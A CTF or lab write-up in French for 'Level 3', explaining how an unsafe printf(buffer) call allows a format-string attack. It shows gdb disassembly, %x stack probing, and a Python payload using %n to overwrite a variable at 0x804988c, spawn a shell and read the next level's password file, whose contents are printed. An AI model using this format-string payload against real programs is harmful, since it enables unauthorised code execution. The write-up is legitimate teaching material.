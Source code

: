 # Level 3

En décompilant le binaire on peut voir qu'il y a un call à la fonction `system` avec pour argument `/bin/sh` mais qu'elle n'est appelée que si la variable `m` (à l'adresse `0x804988c`) est égale à 64.  
Le binaire utilise ici la fonction `fgets`, qui est protégée contre les buffers overflow. Ce que récupère `fgets` devient le premier argument de la fonction `printf`. Mais l'appel à `printf` est mal codé : il aurait fallu écrire `printf("%s", buffer)`, et non `printf(buffer)`.  
La [page de manuel](https://linux.die.net/man/3/printf) de `printf` nous donne une piste :
    > Code such as `printf(foo)`; often indicates a bug, since `foo` may contain a `%` character. If `foo` comes from untrusted user input, it may contain `%n`, causing the `printf()` call to write to memory and creating a security hole. 
Il faudra donc exploiter cette [faille de `printf`](https://en.wikipedia.org/wiki/Uncontrolled_format_string) pour écraser la valeur de la variable `m` et la remplacer par 64. [Voir aussi ce PDF pour plus de détails](http://julianor.tripod.com/bc/formatstring-1.2.pdf)

`printf` à une option `%n` qui permet d'écrire le nombre de caractère affiché à l'adresse d'une variable, et ainsi écrire la valeur `64` à `m`

```shell
~ gdb level3
(gdb) disas v
Dump of assembler code for function v:
[...]
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
[...]
End of assembler dump.
(gdb) quit
~ ./level3
BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
~ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' > /tmp/level3
~ cat /tmp/level3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```